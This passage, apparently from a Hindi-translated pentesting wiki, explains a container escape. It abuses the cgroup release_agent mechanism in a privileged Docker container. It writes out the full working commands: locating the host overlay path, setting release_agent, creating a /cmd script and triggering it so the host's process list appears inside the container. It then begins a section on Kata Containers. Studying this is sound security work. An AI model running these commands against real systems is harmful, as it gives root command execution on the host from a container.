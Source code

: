 हम कंटेनर में जो फ़ाइलें जोड़ते हैं या संशोधित करते हैं, वे होस्ट पर मौजूद होती हैं, और इन्हें दोनों दुनियों से संशोधित किया जा सकता है: कंटेनर में पथ और होस्ट पर उनका पथ।

इन ऑपरेशन्स को नीचे देखा जा सकता है:
```text
root@b11cf9eab4fd:/# echo 1 > /tmp/cgrp/x/notify_on_release
root@b11cf9eab4fd:/# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@b11cf9eab4fd:/# echo "$host_path/cmd" > /tmp/cgrp/release_agent
```
नोट करें `/cmd` स्क्रिप्ट के पथ को, जिसे हम होस्ट पर बनाने जा रहे हैं:
```text
root@b11cf9eab4fd:/# cat /tmp/cgrp/release_agent
/var/lib/docker/overlay2/7f4175c90af7c54c878ffc6726dcb125c416198a2955c70e186bf6a127c5622f/diff/cmd
```
अब, हम `/cmd` स्क्रिप्ट बनाते हैं जिसके द्वारा यह `ps aux` कमांड को निष्पादित करेगा और इसका आउटपुट `/output` में संग्रहीत करेगा, होस्ट पर आउटपुट फ़ाइल के पूर्ण पथ को निर्दिष्ट करके। अंत में, हम भी `/cmd` स्क्रिप्ट को प्रिंट करते हैं ताकि हम इसकी सामग्री देख सकें:
```text
root@b11cf9eab4fd:/# echo '#!/bin/sh' > /cmd
root@b11cf9eab4fd:/# echo "ps aux > $host_path/output" >> /cmd
root@b11cf9eab4fd:/# chmod a+x /cmd
root@b11cf9eab4fd:/# cat /cmd
#!/bin/sh
ps aux > /var/lib/docker/overlay2/7f4175c90af7c54c878ffc6726dcb125c416198a2955c70e186bf6a127c5622f/diff/output
```
अंत में, हम एक प्रक्रिया उत्पन्न करके हमला को क्रियान्वित कर सकते हैं जो "x" बाल बच्चा समूह के अंदर तत्काल खत्म हो जाती है। "/bin/sh" प्रक्रिया बनाकर और इसका पीआईडी "x" बाल बच्चा समूह निर्देशिका में `cgroup.procs` फ़ाइल में लिखकर, मेजबान पर स्क्रिप्ट `/bin/sh` के बाद निष्पादित होगी। मेजबान पर किए गए `ps aux` के आउटपुट को फिर `/output` फ़ाइल में कंटेनर के अंदर सहेजा जाता है:
```text
root@b11cf9eab4fd:/# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
root@b11cf9eab4fd:/# head /output
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.1  1.0  17564 10288 ?        Ss   13:57   0:01 /sbin/init
root         2  0.0  0.0      0     0 ?        S    13:57   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        I<   13:57   0:00 [rcu_gp]
root         4  0.0  0.0      0     0 ?        I<   13:57   0:00 [rcu_par_gp]
root         6  0.0  0.0      0     0 ?        I<   13:57   0:00 [kworker/0:0H-kblockd]
root         8  0.0  0.0      0     0 ?        I<   13:57   0:00 [mm_percpu_wq]
root         9  0.0  0.0      0     0 ?        S    13:57   0:00 [ksoftirqd/0]
root        10  0.0  0.0      0     0 ?        I    13:57   0:00 [rcu_sched]
root        11  0.0  0.0      0     0 ?        S    13:57   0:00 [migration/0]
```
# `--privileged` फ्लैग v2

पिछले PoCs काम करते हैं जब कंटेनर को संग्रह ड्राइवर के साथ कॉन्फ़िगर किया जाता है जो माउंट पॉइंट का पूरा होस्ट पथ उजागर करता है, उदाहरण के लिए `overlayfs`, हालांकि हाल ही में मुझे कुछ कॉन्फ़िगरेशन मिली जिनमें होस्ट फ़ाइल सिस्टम माउंट पॉइंट स्पष्ट रूप से उजागर नहीं होता था।

## काटा कंटेनर्स
```text
root@container:~$ head -1 /etc/mtab
kataShared on / type 9p (rw,dirsync,nodev,relatime,mmap,access=client,trans=virtio)
```
[Kata Containers](https://katacontainers.io/) डिफ़ॉल्ट रूप से `9pfs` के माध्यम से कंटेनर की रूट फ़ाइल सिस्टम को माउंट करता है। इससे कटा कंटेनर वर्चुअल मशीन में कंटेनर फ़ाइल सिस्टम के स्थान के बारे में कोई जानकारी प्रकट नहीं होती है।
